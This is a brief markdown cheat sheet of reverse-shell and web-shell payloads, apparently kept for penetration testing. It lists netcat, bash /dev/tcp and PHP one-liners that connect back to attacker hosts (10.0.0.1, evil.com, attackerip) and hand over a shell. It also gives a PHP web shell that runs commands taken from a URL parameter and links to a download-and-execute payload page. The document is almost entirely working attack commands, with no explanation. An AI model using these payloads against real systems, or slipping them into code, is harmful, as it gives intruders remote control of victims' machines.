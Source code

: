 # Webshells


## Windows download & execute

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md


# Listening...

# nc
    nc -e /bin/sh 10.0.0.1 1234

# old nc
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 4444 >/tmp/f

# nc variant
    nc -c /bin/sh attackerip 4444
    /bin/sh | nc attackerip 4444
    rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p

# nc windows 
    nc.exe -nlvp 443 -e cmd.exe

# Bash
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    ````
    $ exec 5<>/dev/tcp/evil.com/8080
    $ cat <&5 | while read line; do $line 2>&5 >&5; done
    ````

    0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

# Php reverse shell
    
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.36/4445 0>&1'"); ?>

# Php cmd shell
    
    <?php echo "Shell: ";system($_GET['cmd']); ?>
